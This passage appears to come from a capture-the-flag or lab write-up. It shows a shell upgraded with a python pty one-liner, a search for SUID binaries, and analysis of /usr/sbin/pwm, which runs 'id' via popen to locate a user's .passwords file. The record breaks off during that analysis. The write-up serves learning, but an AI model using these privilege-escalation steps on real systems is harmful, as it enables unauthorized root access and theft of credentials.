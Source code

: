 ```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm-256color
cd /home/think
```

### Privilege Escalation Prep
Privilege Escalation Attempt (SUID Binaries):

```sh
find / -perm /4000 2>/dev/null
```
Found executable file `/usr/sbin/pwm`

```sh
/usr/sbin/pwm
```
Output:
```sh
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

```sh
strings /usr/sbin/pwm
```
✅ Key Observations from strings /usr/sbin/pwm
Let’s extract the important parts:
```sh
[!] Running 'id' command to extract the username and user ID (UID)
[-] Error executing id command
uid=%*u(%[^)])
[-] Error reading username from id command
[!] ID: %s
/home/%s/.passwords
[-] File /home/%s/.passwords not found
```
It runs the `id` command with:
```c
popen("id", "r")
```
It uses a `scanf`-like pattern:
```c
uid=%*u(%[^)])
```

```sh
strace -e trace=process /usr/sbin/pwm
```
What `strace` Reveals:
```sh
[!] Running 'id' command to extract the username and user ID (UID)
clone(...) = 3568
...
[!] ID: www-data
```
What does this mean?
The binary spawns a child process using `clone()` → that's how it runs the `id` command.
